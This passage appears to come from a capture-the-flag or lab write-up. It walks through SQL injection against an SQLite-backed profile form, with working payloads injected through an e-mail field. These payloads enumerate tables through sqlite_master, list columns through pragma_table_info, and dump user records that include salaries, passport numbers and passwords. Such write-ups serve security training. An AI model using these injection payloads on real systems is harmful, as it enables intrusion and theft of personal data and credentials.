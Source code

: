 This means the database we are attacking is SQLite.

##### Detecting Tables and number of Columns using group_concat() and pragma_table_info()

Now that we know which database are we attacking, we can create queries taking this into consideration (We need to use only SQLite queries).

We can use the following payload edited with a SQLite query on the E-mail input to dump all database tables:

```shell
',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
```

Now we can see that there are two tables on the database if we inspect the Nick Name:

```shell
usertable,secrets
```

Now we need to enumerate the columns of each table. Using Google I found out that we can use the PRAGMA table_info() command to get the metadata of each column in a table, allowing us to enumerate the number of columns.

Lets do it with the usertable table:

```shell
',nickName=(SELECT group_concat(name) FROM pragma_table_info('usertable')),email='
```

This gave us as result the following:

```shell
UID,name,profileID,salary,passportNr,email,nickName,password
```

Now we know that the table usertable has 8 columns.

Lets do the same with the secrets table:

```shell
',nickName=(SELECT group_concat(name) FROM pragma_table_info('secrets')),email='
```

This gave us the following results:

```shell
id,author,secret
```

Now we know that the table secrets has 3 columns.

##### Getting the Content of each Column using group_concat()

Now we can create payloads with queries to get the contents of each column using group_concat().

Lets start with the usertable table:

```shell
',nickName=(SELECT group_concat(UID || ':' || name || ':' || profileID || ':' || salary || ':' || passportNr || ':' || email || ':' || nickName || ':' || password, '; ') FROM usertable),email='
```
